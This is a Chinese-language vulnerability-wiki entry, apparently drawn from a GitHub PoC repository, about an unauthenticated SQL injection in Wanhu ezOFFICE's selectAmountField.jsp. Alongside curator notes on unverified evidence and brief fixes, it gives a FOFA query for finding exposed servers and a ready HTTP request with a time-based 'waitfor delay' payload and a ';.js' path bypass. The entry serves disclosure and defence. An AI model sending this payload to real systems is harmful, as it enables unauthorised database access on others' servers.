

# 万户ezOFFICE selectAmountField.jsp SQL注入

## 条目说明

- 对象与具体问题：万户ezOFFICE；selectAmountField.jsp SQL注入
- 版本、配置及部署条件：未给版本；SQL Server延迟语法与;.js路径
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与selectCommentField样本结构相似但接口不同，不可机械去重
- 缺差分延迟证据、在野利用及RCE证据

## 操作风险

命令/代码执行示例可能改变主机状态；延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

万户 ezOFFICE selectAmountField  SQL 注入漏洞，未授权攻击者可进行任意数据库查询操作，甚至可能获取服务器权限。

## 影响版本

万户 ezOFFICE

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```http
GET /defaultroot/platform/custom/custom_database/dropdownselect/selectAmountField.jsp;.js?tableId=1;waitfor+delay+'0:0:3'--+- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
